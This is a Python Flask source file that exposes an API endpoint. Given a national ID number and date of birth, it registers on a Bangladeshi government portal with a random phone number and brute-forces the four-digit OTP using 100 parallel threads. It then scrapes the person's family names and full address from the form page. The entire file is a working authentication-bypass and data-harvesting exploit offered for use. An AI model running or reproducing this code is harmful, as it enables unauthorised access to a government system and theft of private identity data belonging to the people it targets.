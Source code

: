 from flask import Flask, request, jsonify
import requests
import random
import string
import re
import json
from urllib.parse import urlencode
from concurrent.futures import ThreadPoolExecutor, as_completed

app = Flask(__name__)

@app.route('/get-info', methods=['GET'])
def get_info():
    try:
        nid = request.args.get('nid')
        dob = request.args.get('dob')
        
        if not nid or not dob:
            return jsonify({'error': 'NID and DOB are required'}), 400

        # ==================== CONFIG ====================
        mobile_prefix = "017"
        batch_size = 500
        target_location = "http://fsmms.dgf.gov.bd/bn/step2/movementContractor/form"

        # OTP range
        otp_range = [f"{i:04d}" for i in range(10000)]

        def random_mobile(prefix):
            return prefix + f"{random.randint(0, 99999999):08d}"

        def random_password():
            return "#" + random.choice(string.ascii_uppercase) + f"{random.randint(0, 99)}"

        def get_cookie(data):
            url = "https://fsmms.dgf.gov.bd/bn/step2/movementContractor"
            session = requests.Session()
            res = session.post(url, data=data, allow_redirects=False)
            if res.status_code == 302 and 'mov-verification' in res.headers.get('Location', ''):
                return session
            else:
                raise Exception("Bypass Failed")

        def try_otp(session, otp):
            url = "https://fsmms.dgf.gov.bd/bn/step2/movementContractor/mov-otp-step"
            data = {
                "otpDigit1": otp[0],
                "otpDigit2": otp[1],
                "otpDigit3": otp[2],
                "otpDigit4": otp[3]
            }
            res = session.post(url, data=data, allow_redirects=False)
            if res.status_code == 302 and target_location in res.headers.get('Location', ''):
                return otp
            return None

        def try_batch(session, otp_batch):
            with ThreadPoolExecutor(max_workers=100) as executor:
                future_to_otp = {executor.submit(try_otp, session, otp): otp for otp in otp_batch}
                for future in as_completed(future_to_otp):
                    result = future.result()
                    if result:
                        executor.shutdown(cancel_futures=True)
                        return result
            return None

        def fetch_form_data(session):
            url = "https://fsmms.dgf.gov.bd/bn/step2/movementContractor/form"
            res = session.get(url)
            return res.text

        def extract_fields(html, ids):
            result = {}
            for field_id in ids:
                match = re.search(rf'<input[^>]*id="{field_id}"[^>]*value="([^"]*)"', html)
                result[field_id] = match.group(1) if match else ""
            return result

        def enrich_data(contractor_name, result):
            mapped = {
                "nameBangla": contractor_name,
                "nameEnglish": "",
                "nationalId": nid,
                "dateOfBirth": dob,
                "fatherName": result.get("fatherName", ""),
                "motherName": result.get("motherName", ""),
                "spouseName": result.get("spouseName", ""),
                "gender": "",
                "religion": "",
                "birthPlace": result.get("nidPerDistrict", ""),
                "nationality": result.get("nationality", ""),
                "division": result.get("nidPerDivision", ""),
                "district": result.get("nidPerDistrict", ""),
                "upazila": result.get("nidPerUpazila", ""),
                "union": result.get("nidPerUnion", ""),
                "village": result.get("nidPerVillage", ""),
                "ward": result.get("nidPerWard", ""),
                "zip_code": result.get("nidPerZipCode", ""),
                "post_office": result.get("nidPerPostOffice", "")
            }

            address_parts = [
                f"বাসা/হোল্ডিং: {result.get('nidPerHolding', '-')}",
                f"গ্রাম/রাস্তা: {result.get('nidPerVillage', '')}",
                f"মৌজা/মহল্লা: {result.get('nidPerMouza', '')}",
                f"ইউনিয়ন ওয়ার্ড: {result.get('nidPerUnion', '')}",
                f"ডাকঘর: {result.get('nidPerPostOffice', '')} - {result.get('nidPerZipCode', '')}",
                f"উপজেলা: {result.get('nidPerUpazila', '')}",
                f"জেলা: {result.get('nidPerDistrict', '')}",
                f"বিভাগ: {result.get('nidPerDivision', '')}"
            ]
            address_line = ", ".join([p for p in address_parts if p.split(": ")[1]])

            mapped["permanentAddress"] = address_line
            mapped["presentAddress"] = address_line
            return mapped

        # Main workflow
        password = random_password()
        data = {
            "nidNumber": nid,
            "email": "",
            "mobileNo": random_mobile(mobile_prefix),
            "dateOfBirth": dob,
            "password": password,
            "confirm_password": password,
            "next1": ""
        }

        # 1. Get cookie/session
        session = get_cookie(data)

        # 2. Shuffle OTPs and try in batches
        random.shuffle(otp_range)
        found_otp = None
        for i in range(0, len(otp_range), batch_size):
            batch = otp_range[i:i+batch_size]
            found_otp = try_batch(session, batch)
            if found_otp:
                break

        if found_otp:
            html = fetch_form_data(session)
            ids = ["contractorName","fatherName","motherName","spouseName","nidPerDivision",
                   "nidPerDistrict","nidPerUpazila","nidPerUnion","nidPerVillage","nidPerWard",
                   "nidPerZipCode","nidPerPostOffice"]
            result = extract_fields(html, ids)
            mapped_data = enrich_data(result.get("contractorName", ""), result)
            
            return jsonify(mapped_data), 200
        else:
            return jsonify({"error": "OTP not found"}), 404
            
    except Exception as e:
        return jsonify({'error': str(e)}), 500

if __name__ == '__main__':
    app.run(debug=True)
